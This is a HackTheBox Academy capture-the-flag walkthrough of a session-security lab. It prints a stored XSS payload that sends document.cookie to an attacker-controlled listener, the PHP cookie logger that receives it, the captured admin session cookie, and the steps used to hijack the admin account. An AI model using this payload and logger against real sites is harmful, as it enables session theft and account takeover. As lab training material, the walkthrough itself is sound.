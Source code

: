 ```yaml
---
title: "[HTB_Academy] Session Security"
excerpt: "**Session Security** Module Walkthrough - HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_Session_Security/banner.png
  teaser: /assets/images/HTB_Session_Security/upper.jpg
  og_image: /assets/images/HTB_Session_Security/upper.jpg
categories:
  - HTB-Academy
tags:
  - HTB-Academy
  - Bug Bounty Hunter
  - Penetration Tester
  - Web
  - OWASP TOP 10
  - Session Security
  - Cookie
  - PHP
  - Payload
layout: single
toc: true
---
```

![image-center](\assets\images\HTB_Session_Security\upper.jpg)

## Disclaimer
<img style="float: left; padding-right:10px" src="\assets\images\disclaimer.png" width="110" height="110">

<div style="text-align: justify">The following post may contain spoilers. Use it as a guide or support. It is always better to try it by yourself!</div>
<div style="text-align: justify">Enjoy :)</div>

## Resources
<img style="float: left; padding-right:10px" src="\assets\images\github.avif" width="110" height="110">
<div style="text-align: justify">All resources can be found in the following GitHub repository:</div>
[R4fik1-HTB_Session_Security_Repository](https://github.com/r4fik1/HTB_Academy/tree/main/HTB_Session_Security)

## Module Summary

Any inefficiencies or misconfigurations in the session-handling implementation of a web application, service, or API can have devastating consequences that range from information leakage and inadvertent user actions all the way to Account Takeover (ATO) and remote code execution.

As you can imagine, it is of paramount importance to thoroughly test the session-handling logic of a web application being assessed. That said, testing the robustness of a session-handling implementation is not a small feat. This is because chaining (seemingly unrelated) vulnerabilities is often required to successfully attack a user's session.

Worry not, though; in this module, we will provide you with a highly hands-on experience around attacking a user's session and the possible paths that you can take to achieve that.

In this module, you will have the opportunity to practice manual exploitation of the following:

- Session Hijacking
- Session Fixation
- XSS (Cross-Site Scripting) <-- With a focus on user sessions
- CSRF (Cross-Site Request Forgery)
- Open Redirect <-- With a focus on user sessions
  
We will also discuss remediation guidance regarding the abovementioned vulnerabilities.

## Session Security - Skills Assessment

>**Q. Read the flag residing in the admin's public profile. Answer format: [string]**

<div style="text-align: justify">1. We utilize virtual hosts (vhosts) to house the web applications to simulate a large, realistic environment with multiple webservers. Since these vhosts all map to a different directory on the same host, we have to make manual entries in our /etc/hosts file on the Pwnbox or local attack VM to interact with the lab.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\1.png)

<div style="text-align: justify">2. Access to "http://minilab.htb.net". First you have to log in with the credentials provided in the statement. Enter the credentials and click on login.</div>
```
Email: heavycat106
Password: rocknrol
```
![image-center](\assets\images\HTB_Session_Security\Q11\2.png)

<div style="text-align: justify">3. Create a PHP script that saves the cookie.</div>
```sh
nano log.php
```
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

![image-center](\assets\images\HTB_Session_Security\Q11\3.png)

<div style="text-align: justify">4. Open a listener in the same folder where the PHP script created in the previous step is.</div>
```sh
php -S 10.10.15.60:8000
```
![image-center](\assets\images\HTB_Session_Security\Q11\4.png)


<div style="text-align: justify">5. Access the "app" section, enter the following payload in the country field and click on the "Save" button.</div>
```php
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.60:8000/log.php?c=' + document.cookie;"></video>
```
![image-center](\assets\images\HTB_Session_Security\Q11\5.png)

<div style="text-align: justify">6. When you click on save, you are redirected to a section where you can save the data permanently. In the following screenshot it is verified that the app has accepted the payload. Click on Save.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\6.png)

<div style="text-align: justify">7. Access "http://minilab.htb.net/submit-solution" and see how the success field is "false".</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\7.png)

<div style="text-align: justify">8. Insert the following link that contains the profile with the payload as a parameter.</div>
```
http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```
![image-center](\assets\images\HTB_Session_Security\Q11\8.png)

<div style="text-align: justify">9. We check the listener and see what looks like a cookie thanks to the payload, the script and the listener.</div><br>
```sh
[Thu Feb  9 11:11:28 2023] 10.129.19.198:37042 [302]: GET /log.php?c=auth-session=s%3AZMEqyRAhF2Ta7gHyxUZCWu4DaPb2_KT0.ES2ciTNMldjUBsKFonTFKF%2B09jHx6I3lIJFfQGjTkmc
```
![image-center](\assets\images\HTB_Session_Security\Q11\9.png)

<div style="text-align: justify">10. In Chrome, introduce that cookie in storage and update.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\10.png)

<div style="text-align: justify">11. The admin profile has been accessed within the app. Click on the "Change Visibility" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\11.png)
<div style="text-align: justify">12. Finally, click on "Make Public!" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\12.png)
<div style="text-align: justify">13. Here we see the first flag and a button to get the second flag. Clicking on the "Flag2" button downloads a pcap file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\13.png)

>**Q. Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}
wireshark**

<div style="text-align: justify">1. We open Wireshark as "superuser" and click on "Open Capture File". Select the previously downloaded file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\14.png)

<div style="text-align: justify">2. Once the file is open, we look for the string "FLAG" in the search engine and the second Flag is obtained.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\15.png)